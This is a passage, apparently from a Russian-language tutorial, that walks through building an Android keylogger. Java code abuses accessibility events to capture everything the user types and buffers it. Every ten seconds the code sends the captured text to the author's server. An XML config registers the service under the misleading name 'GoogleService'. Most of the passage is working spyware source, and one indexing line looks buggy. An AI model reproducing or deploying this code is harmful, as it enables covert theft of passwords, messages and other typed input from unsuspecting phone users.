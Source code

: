 Метод ```onAccessibilityEvent()``` принимает все входящие события. Событие ```AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED``` приходит, когда пользователь вводит текст в поле какое-нибудь. Мы отлавливаем именно его. Весь ввод записываем в буфер. И каждые 10 секунд отправляем этот буфер на свой сервер, стартуя ```SendService```. 

```java
public void onAccessibilityEvent(AccessibilityEvent event) {
switch (event.getEventType()) {
    case AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED:

	int len = event.getText().toString().length();
	char c;
	if (len > 0) {
	    c = event.getText().toString().charAt(len - 2);

	    buf += c;
	}
	break;
    default:
	break;
}
Log.d(TAG, "Keylogger buffer now " + buf);
Date now = new Date();
Date newTime = new Date(GoogleService.CURRENT_TIMESTAMP.getTime() + 10 * 1000);

if (now.after(newTime) && !"".equals(buf)) {

    Context ctx = getApplicationContext();

    Intent intent = new Intent(ctx, SendService.class);

    intent.putExtra("text", buf);
    ctx.startService(intent);

    GoogleService.CURRENT_TIMESTAMP = now;
    buf = "";
}
}
```

Конфиг, нашего ```GoogleService```, выглядит так:

```xml
<?xml version="1.0" encoding="utf-8"?>
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
android:accessibilityEventTypes="typeViewTextChanged"
android:accessibilityFeedbackType="feedbackSpoken|feedbackHaptic|feedbackAudible|feedbackVisual|feedbackGeneric|feedbackAllMask"
android:notificationTimeout="100"
android:accessibilityFlags="flagDefault|flagIncludeNotImportantViews"
android:canRetrieveWindowContent="false" />
```

В нем указывается, на какие события подписывается наш сервис и другая информация.
